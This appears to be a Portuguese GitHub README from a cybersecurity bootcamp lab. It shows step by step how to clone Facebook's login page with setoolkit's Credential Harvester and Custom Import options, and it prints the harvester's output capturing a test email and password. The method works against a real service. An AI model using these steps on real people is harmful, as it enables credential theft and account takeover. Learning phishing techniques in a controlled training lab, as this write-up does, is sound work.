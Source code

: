 # Phishing para a captura de credenciais do Facebook

Este é um desafio proposto pela DIO no Santander Bootcamp Cibersegurança #2.

## Ferramentas
- Kali Linux
- setoolkit

## Configurando o Phishing no Kali Linux
- Acesso root: `sudo su`
- Iniciando o setoolkit: `setoolkit`
- Tipo de ataque **Social-Engineering Attacks**: `1`
- Vetor de ataque **Website Attack Vectors**: `2`
- Método de ataque **Credential Harvester Attack Method**: `3`

A partir deste ponto, usar a opção **Site Cloner** para coletar as credenciais do facebook não é suficiente, devido as medidas de segurança do site. Para contornar este problema, utilizei o [método sugerido pelo Weslley Costa](https://github.com/cassiano-dio/cibersecurity-desafio-phishing), que consiste em usar a opção **Custom Import** do _setoolkit_.

- Método de ataque **Custom Import**: 3
- Em seguida, o _setoolkit_ vai pedir para inserir o IP em que será hospedado a página phishing. Apenas pressione ENTER para usar o IP da máquina. Para conferir o IP manualmente, execute o comando `ifconfig`.

### Configurando a página phishing
- Crie um arquivo chamado `index.html`
- Acesse https://www.facebook.com no seu navegador
- Clique com o botão direito e clique em **View Page Source**
- Copie o código fonte da página e cole no arquivo `index.html` criado
- Abra o arquivo e identifique e delete a linha que contém:
    
    `<script src="https://static.xx.fbcdn.net/rsrc.php/v4/yh/r/eu52kbGWc19.js" data-bootloader-hash="lp6Cw4s" crossorigin="anonymous"></script>`
    
    Lembre-se de salvar o arquivo.

### Finalizando a configuração no setoolkit
- Voltando ao _setoolkit_, insira o caminho do diretório que contém o arquivo `index.html`
- Selecione a opção **Copy the entire folder**: `2`
- Por fim, insira a URL do site importado. Neste caso: `http://www.facebook.com`

## Resultados

Após inserir as credenciais no site phishing acessado através do IP fornecido no _setoolkit_, os dados são coletados e mostrados no programa:
```
192.168.100.101 - - [14/Dec/2024 14:46:17] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
PARAM: jazoest=21044            
PARAM: lsd=AVpj4siniQk                                                             
POSSIBLE USERNAME FIELD FOUND: email=testando@gmail.com                                            
POSSIBLE PASSWORD FIELD FOUND: pass=testando12345                                                  
POSSIBLE USERNAME FIELD FOUND: login_source=comet_headerless_login                                 
PARAM: next=          
POSSIBLE USERNAME FIELD FOUND: login=1                                                             
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT. 
```

